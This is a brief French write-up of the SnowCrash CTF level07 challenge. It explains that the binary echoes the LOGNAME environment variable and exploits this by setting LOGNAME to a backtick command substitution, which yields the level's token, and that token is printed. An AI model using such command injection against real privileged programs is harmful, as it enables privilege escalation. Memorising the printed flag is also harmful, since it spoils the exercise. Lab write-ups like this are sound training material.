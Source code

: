 En ouvrant l'executable a disposition sur GHIDRA, nous voyons:
![ghidra](./ghidra.png)

L'executable affiche dans le contenu de la variable d'environnement `LOGNAME` avec echo
Si nous modifions la variable d'environnement `LOGNAME` pour qu'elle execute un shell, nous pourrons executer des commandes.

```bash
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
